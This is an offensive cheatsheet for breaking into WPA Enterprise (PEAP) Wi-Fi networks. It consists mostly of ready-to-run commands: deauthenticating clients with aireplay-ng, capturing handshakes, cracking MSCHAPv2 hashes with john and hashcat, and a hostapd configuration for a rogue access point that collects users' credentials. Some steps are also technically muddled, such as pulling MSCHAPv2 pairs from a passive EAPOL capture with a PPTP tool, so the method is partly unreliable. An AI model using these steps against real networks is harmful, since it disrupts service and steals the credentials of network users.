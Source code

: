 # WPA Enterprise Attack Cheatsheet

## Attack Flow

1. **Scan & Identify**  
    Find WPA Enterprise (802.1X/PEAP) networks.

2. **Capture EAPOL Handshake**  
    Record PEAP tunnel and MSCHAPv2 challenge/response.

3. **Extract MSCHAPv2 Hash**  
    Parse handshake for challenge/response pairs.

4. **Offline Crack**  
    Recover user password from hashes.

5. **(Optional) Rogue AP**  
    Deploy fake AP to capture credentials.

---

## Step-by-Step Commands

### 1. Scan & Capture

```bash
sudo airmon-ng start wlan0
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```
- Use `airodump-ng` to capture EAPOL handshake.

**Force handshake:**
```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

### 2. Analyze PEAP Exchange

Open capture in Wireshark:
```bash
wireshark capture-01.cap
```
- Filter: `eapol`  
- Inspect for MSCHAPv2 exchange.

### 3. Extract MSCHAPv2 Hash

```bash
chapcrack.py capture-01.cap > hash.txt
```
- Use `chapcrack.py` or similar tools.

### 4. Offline Password Cracking

**John the Ripper:**
```bash
john --format=netntlm hash.txt
```

**Hashcat:**
```bash
hashcat -m 5500 hash.txt wordlist.txt
```

### 5. Rogue AP Setup (Optional)

Sample `hostapd.conf` for WPA-Enterprise PEAP:

```ini
interface=wlan0mon
driver=nl80211
ssid=FakeEnterpriseAP
hw_mode=g
channel=6
wpa=2
wpa_key_mgmt=WPA-EAP
auth_algs=3
eap_server=1
eap_user_file=/etc/hostapd.eap_user
ca_cert=/path/to/ca.pem
server_cert=/path/to/server.pem
private_key=/path/to/server.key
```

Start fake AP:
```bash
sudo hostapd hostapd.conf
```
- Monitor logs for credentials.

---

## Useful Tools

- **airmon-ng, airodump-ng, aireplay-ng:** Monitoring & capture
- **wireshark:** Packet analysis
- **chapcrack.py:** Extract MSCHAPv2 challenge/response
- **john, hashcat:** Offline password cracking
- **hostapd:** Rogue AP setup
- **freeradius-wpe:** Rogue RADIUS credential capture

